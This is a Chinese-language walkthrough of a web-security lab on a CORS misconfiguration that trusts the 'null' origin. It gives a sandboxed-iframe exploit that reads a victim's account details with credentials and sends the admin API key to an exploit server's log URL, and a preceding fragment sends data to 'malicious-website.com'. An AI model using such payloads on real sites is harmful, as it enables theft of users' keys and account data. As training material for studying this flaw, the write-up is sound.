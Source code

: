 function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
&lt;/script&gt;"&gt;&lt;/iframe&gt;
</code></pre>
<hr/>
2、涉及实验：
实验2：具有可信空源的CORS漏洞


> 
<h3>实验2：具有可信空源的CORS漏洞</h3>
信息：
1、此网站具有不安全的CORS配置，因为它信任"空"源。
2、解决实验：编制JavaScript，使用CORS检索管理员的API密钥并将代码上载到漏洞利用服务器。并提交api Key
3、已有账号：wiener:peter
<hr/>
part1:
登陆账号，单击"我的帐户"，查看历史记录并观察到密钥是通过AJAX请求/accountDetails检索的，并且响应包含Access-Control-Allow-Credentials标头，表明它可能支持CORS



将请求发送到Burp Repeater，并使用添加的标题重新提交
<pre>`Origin: null`</pre>
<br/> 观察null来源是否反映在Access-Control-Allow-Origin标题中


<hr/>
part2:
漏洞利用
在浏览器中，转到漏洞利用服务器并输入以下HTML（将YOUR-LAB-ID替换为实验室URL的URL，将YOUR-EXPLOIT-SERVER-ID替换为漏洞利用服务器ID）
<pre><code>&lt;iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="&lt;script&gt;
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
&lt;/script&gt;"&gt;&lt;/iframe&gt;

我的是：
&lt;iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="&lt;script&gt;
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0aba007e04d40bebc0cc042b007400f9.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0a2b00ef049c0b89c073031b01250021.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
&lt;/script&gt;"&gt;&lt;/iframe&gt;</code></pre>
注意iframe沙箱的使用，因为这会生成一个空的源请求。<br/> 单击"查看漏洞利用"（view）。观察漏洞利用是否有效-已登录到日志页面，API密钥位于URL中（测试poc的可行性，就不在这测了，直接到发给受害者）<br/> 返回到利用漏洞攻击服务器并单击"将利用漏洞攻击发送给受害者"。
